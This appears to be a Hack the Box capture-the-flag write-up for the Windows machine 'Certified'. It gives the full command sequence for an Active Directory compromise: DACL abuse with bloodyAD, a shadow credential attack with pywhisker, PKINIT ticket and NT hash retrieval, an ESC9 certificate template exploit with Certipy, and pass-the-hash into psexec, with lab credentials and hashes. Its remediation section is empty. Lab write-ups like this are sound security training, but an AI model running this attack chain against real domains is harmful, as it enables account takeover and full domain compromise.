 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse Active Directory DACLs 
- Successfully execute a shadow credential attack via Pywhisker
- Enumerate vulnerable certificate templates and exploit a ESC9 template misconfiguration using Certipy


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account

![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith

	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader```

4. then give GenericAll privs to judith
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader```

5. then add judith to the management group
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader```

![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc

	```python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180```

![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	
	```python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache```

![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)

8. Export ccache to KRB5CCNAME env var and use AS-REP encryption key from getting TGT to get NT hash of management_svc account using PKINIT tools getnthash.py

	```python3 getnthash.py -key AS_REP_KEY -dc-ip 10.129.130.180 certified.htb/management_svc```

![image](https://github.com/user-attachments/assets/98efc969-2c11-4b5c-8890-777a40922f7d)

9. Can evil-winrm into machine using management_svc hash

	```evil-winrm -i 10.129.130.180 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584```

![image](https://github.com/user-attachments/assets/55e2e59e-2f73-4870-a387-3dfd2e37a651)

10. Bloodhound shows management_svc has GenericAll privs on user ca_operator. Change ca_operator password
	
 	```python3 /opt/bloodyAD/bloodyAD.py --dc-ip 10.129.131.108 -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 set password ca_operator P@ssw0rd```
Success!

![image](https://github.com/user-attachments/assets/23415309-3f97-4fd2-9e6e-31b3feae8432)

11. Get list of certificate templates
	
	```certipy find -u ca_operator -p P@ssw0rd -dc-ip 10.129.131.108 -enabled```

![image](https://github.com/user-attachments/assets/2a9d2c0d-966e-4345-be32-68f88bfe1f85)

12. CertifiedAuthentication template has ESC9 vulnerability. To exploit ESC9 templates, set the upn of ca_operator to Administrator
	
 	```certipy account update -username management_svc -hashes :[NT_HASH] -upn Administrator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/a41bf04c-24bb-4163-9ed7-a19f9d89980a)

13. Request certificate with changed upn
	
 	```certipy req -u ca_operator@certified.htb -p P@ssw0rd -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/ca644a51-0514-427b-9fcc-d164ff246b38)

14. Change back ca_operator upn to original
	
 	```certipy account update -username management_svc -hashes :[NT_HASH] -upn ca_operator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/92e33eb1-c3ca-47be-b0dd-7a2146995aa2)

15. Authenticate with admin certificate and get NT hash of Administrator
	
 	```certipy auth -pfx administrator.pfx -domain certified.htb -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/b1df9eeb-8584-433b-ad17-253920ba04ff)

16. Check administrator hash is correct using pass the hash
	
 	```crackmapexec smb [IP] -u Administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/34eab86c-32f0-413b-8bf5-d00b62a6feea)

17. Pwned! Psexec into machine and get root flag!
	
 	```psexec.py Administrator@[IP] -hashes [HASH]```

![image](https://github.com/user-attachments/assets/c4549cc0-4fe6-427a-a6a7-cc077521e35d)


## Remediation Summary
- 






 
